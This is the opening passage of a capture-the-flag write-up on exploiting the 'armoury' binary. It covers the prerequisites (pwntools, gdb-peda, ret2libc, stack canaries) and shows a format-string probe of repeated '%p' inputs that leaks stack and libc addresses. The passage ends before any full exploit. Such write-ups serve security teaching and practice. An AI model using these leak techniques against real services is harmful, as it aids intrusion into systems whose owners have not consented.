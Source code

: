 This writeup is based on Naivenom's writeup from the CTF which can be found
[here](https://naivenom.tistory.com/19).

I did not solve this problem during the duration of the CTF but found it to be
a good opportunity to write a detailed explanation about how I solved it.

-----

## 0. Some pre-requisites:

- It's nice to have gdb-peda and pwntools.  
- Knowledge on buffer overflow and ret2libc.   
- Knowledge of 64-bit environments and its difference from 32-bit environments (optional)  
- "scanf will quite happily read null bytes. it only stops at white space - strcpy/strcat are the functions you should worry about null bytes" -brx (This means we don't have to worry about the canary having null bytes)

P.S: How to set ASLR on on gdb (turns off every instance):  
```  
set disable-randomization off  
```

-----

## 1. Examining the program

When we boot up the program, we can clearly see the program has a format
string bug:

```  
chanbin_lee123@linux:~$ ./armoury  
*******Rifle Database**************

Enter the name of Rifle to get info:  
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p

----------------DATA-------------------

0x7fa5447c5683.0x7fa5447c6760.0x7fa544506970.0x7fa5449e7440.(nil).0x1.0x1dbcdbced.0x252e70252e702500.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xc8316ab63d007025.0x5622dbcdbca0:

Sorry... We dont have any information about
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p

---------------------------------------

Enter the name of Rifle to get info:

^C  
```

As per the output text, we can see that there are some addresses leaking (we
will observe this later), and then further, the material in the stack. We can
observe that the stack information is leaked from the 9th argument (after 9
"%p"s).
